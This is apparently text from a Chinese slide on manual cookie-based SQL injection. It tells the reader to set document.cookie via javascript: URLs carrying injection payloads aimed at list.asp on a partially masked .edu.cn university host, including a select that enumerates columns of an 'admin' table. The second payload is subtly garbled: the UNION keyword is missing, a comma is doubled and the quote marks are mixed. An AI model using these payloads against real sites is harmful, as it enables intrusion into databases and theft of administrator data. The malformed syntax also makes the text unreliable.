

# cookie 手工注入

清空地址栏，输入：javascript:alert(document.cookie="id="+escape("30and 1=2"))，然后去掉？id=1556输入http://soft.XXXXX.edu.cn/list.asp，返回正常

javascript:alert(document.cookie=”id=”+escape(“1556 and 1=2 select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,,27,28,29,30 from admin”))